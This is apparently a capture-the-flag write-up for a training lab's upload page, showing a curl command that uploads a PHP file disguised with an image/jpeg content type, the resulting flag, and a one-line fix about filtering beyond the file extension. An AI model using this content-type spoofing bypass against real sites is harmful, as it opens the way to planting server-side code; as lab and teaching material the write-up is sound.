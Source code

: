 # Upload

## Link: http://192.168.64.3/?page=upload

- cd /tmp
- touch hack.php
- curl -F "Upload=Upload" -F "uploaded=@hack.php;type=image/jpeg" http://192.168.64.3/\?page\=upload
- Result:

```html
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/hack.php succesfully uploaded.</pre>
```

flag: `46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`

## How to fix

- Add more filter than just file extention
